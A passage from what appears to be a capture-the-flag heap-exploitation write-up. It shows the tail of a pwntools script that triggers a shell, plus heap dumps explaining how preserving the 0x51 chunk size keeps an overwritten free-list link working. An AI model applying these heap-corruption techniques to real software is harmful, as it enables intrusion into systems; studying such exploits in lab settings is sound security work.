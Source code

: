 ```py
# Might need for debugging heap where gdb.debug fails
# gdb.attach(io, gdbscript='''
# init-pwndbg
# continue
# ''')

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')

# Got Shell?
io.interactive()
```

Note when we overwrite the link in the list, we submit `0x51` afterwards to keep our heap intact, e.g. if we don't specify the next chunk's size, the heap won't know where it ends, and the next chunk begins. See the following output when we **don't** supply `0x51`.

```sh
0xd4c240	0x0000000000000000	0x0000000000000000	................
0xd4c250	0x0000000000000000	0x0000000000000000	................
0xd4c260	0x0000000000000000	0x0000000000000000	................
0xd4c270	0x0000000000000000	0x0000000000000000	................
0xd4c280	0x0000000000000000	0x0000000000000000	................
0xd4c290	0x0000000000000000	0x0000000000000000	................
0xd4c2a0	0x0000000000000000	0x0000000000000051	........Q.......
0xd4c2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0xd4c2c0	0x0000000000000000	0x0000000000000000	................
0xd4c2d0	0x0000000000000000	0x0000000000000000	................
0xd4c2e0	0x0000000000000000	0x0000000000000000	................
0xd4c2f0	0x0000000000d4c300	0x0000000000000051	........Q.......
0xd4c300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0xd4c310	0x0000000000000000	0x0000000000000000	................
0xd4c320	0x0000000000000000	0x0000000000000000	................
0xd4c330	0x0000000000000000	0x0000000000000000	................
```

But when **do** we supply the `0x51`, the top chunk is visible.

```sh
0x224e2a0	0x0000000000000000	0x0000000000000051	........Q.......
0x224e2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0x224e2c0	0x0000000000000000	0x0000000000000000	................
0x224e2d0	0x0000000000000000	0x0000000000000000	................
0x224e2e0	0x0000000000000000	0x0000000000000000	................
0x224e2f0	0x000000000224e300	0x0000000000000051	..$.....Q.......
0x224e300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0x224e310	0x0000000000000000	0x0000000000000000	................
0x224e320	0x0000000000000000	0x0000000000000000	................
0x224e330	0x0000000000000000	0x0000000000000000	................
0x224e340	0x0000000000404040	0x0000000000000051	@@@.....Q.......
0x224e350	0x00325f4b4e550000	0x0000000000000000	..UNK_2.........
0x224e360	0x0000000000000000	0x0000000000000000	................
0x224e370	0x0000000000000000	0x0000000000000000	................
0x224e380	0x0000000000000000	0x0000000000000000	................
0x224e390	0x0000000000000000	0x000000000001fc71	........q....... <-- Top chunk
```
